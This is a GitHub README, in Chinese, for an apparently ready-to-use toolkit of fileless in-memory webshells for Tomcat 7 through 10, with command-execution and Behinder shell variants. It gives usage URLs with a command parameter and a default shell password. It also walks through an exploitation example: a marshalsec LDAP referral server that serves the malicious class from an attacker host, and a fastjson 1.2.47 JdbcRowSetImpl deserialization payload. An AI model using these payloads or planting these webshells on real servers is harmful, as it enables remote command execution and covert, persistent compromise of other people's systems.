 # TomcatMemShell
拿来即用的Tomcat7/8/9/10版本Listener/Filter/Servlet内存马，支持注入CMD内存马和冰蝎内存马  

原理及代码分析详见[《Tomcat Servlet-Api内存马总结及代码实现》](https://mp.weixin.qq.com/s/r-JHLX5UoccGNZCfJS3klg)  
走过路过的师傅们可以用手机微信扫最底下的公众号二维码帮我冲一下阅读量，谢谢

测试通过的Tomcat版本：  
- **tomcat7.0.99**(2019-12-17)&nbsp;&nbsp;&nbsp;&nbsp;**tomcat7.0.64**(2015-10-14)&nbsp;&nbsp;&nbsp;&nbsp;**tomcat7.0.34**(2012-12-11)  
- **tomcat8.5.69**(2021-07-05)&nbsp;&nbsp;&nbsp;&nbsp;**tomcat8.0.46**(2017-08-18)  
- **tomcat9.0.12**(2018-09-10)&nbsp;&nbsp;&nbsp;&nbsp;**tomcat9.0.53**(2021-09-10)  
- **tomcat10.0.11**(2021-09-10)&nbsp;&nbsp;&nbsp;&nbsp;**tomcat10.1.0-M2**(2021-07-02)
# 说明
### 主要内容
1. 实用
2. 适配对应版本的库和函数，如tomcat10开始javax.servlet更改为jakarta.servlet等
3. 添加冰蝎内存马的注入代码，方便直接GetShell
4. 分别总结了.jsp和.java的内存马实现方式，添加了Listener内存马

### JSP目录
根据目标环境**上传或写入**对应大版本的.jsp文件并访问，访问后页面返回>@<即说明注入成功，支持Tomat7/8/9/10版本

*见名知义，memlistener8910.jsp表示适用于Tomcat8/9/10版本的Listener CMD内存马，icememfilter7.jsp表示适用于Tomcat7版本的Filter冰蝎内存马*

### DeSerialize目录
对应的.java文件和.class文件需要结合**反序列化漏洞**类型进行漏洞利用，如fastjson的jndi或snakeyaml的spi等，支持Tomcat8/9/10版本

不适用于shiro漏洞，shiro漏洞利用需要继承AbstractTranslet类并且修改Header大小，感兴趣的可参考该项目：https://github.com/KpLi0rn/ShiroVulnEnv

*见名知义，LRain10表示适用于Tomcat10版本的Listener CMD内存马，IFRain表示适用于Tomcat8/9的Filter冰蝎内存马 （注意java文件修改文件名请与类名保持一致）*

对应java文件中StandardContext的获取依据Litch1师傅[《基于全局储存的新思路 | Tomcat的一种通用回显方法研究》](https://mp.weixin.qq.com/s?__biz=MzIwNDA2NDk5OQ==&mid=2651374294&idx=3&sn=82d050ca7268bdb7bcf7ff7ff293d7b3)的Thread.currentThread().getContextClassLoader()方式，该方式不适用于Tomcat7

# 用法
**Listener型/Filter型:**  
- CMD内存马URL：xx.xx.xx.xx/?chan=whoami  
- 冰蝎内存马URL：xx.xx.xx.xx/ &nbsp;&nbsp;&nbsp;&nbsp;默认连接密码：goautomne

**Servlet型：**  
- CMD内存马URL: xx.xx.xx.xx/p?chan=whoami  
- 冰蝎内存马URL: xx.xx.xx.xx/p &nbsp;&nbsp;&nbsp;&nbsp;默认连接密码：goautomne

# 利用举例
以fastjson1.2.47版本的反序列化漏洞为例，将对应Tomcat版本的class文件，这里以ILRain.class为例，上传到web服务器，并开启LDAP服务
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://xx.xx.xx.xx/#ILRain 9102
```
然后再打入fastjson漏洞的poc,就可以使用冰蝎客户端去连接了
```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://xx.xx.xx.xx:9102/123",
        "autoCommit":true
    }
}
```

# 免责声明
仅供技术研究，请勿用于非法用途

# 题外话
觉得有帮助的话烦请给个star:wave:   
![barcode](https://user-images.githubusercontent.com/20917372/167749443-c4b968a0-ec35-4c20-81a9-bfa64a9ee876.png)

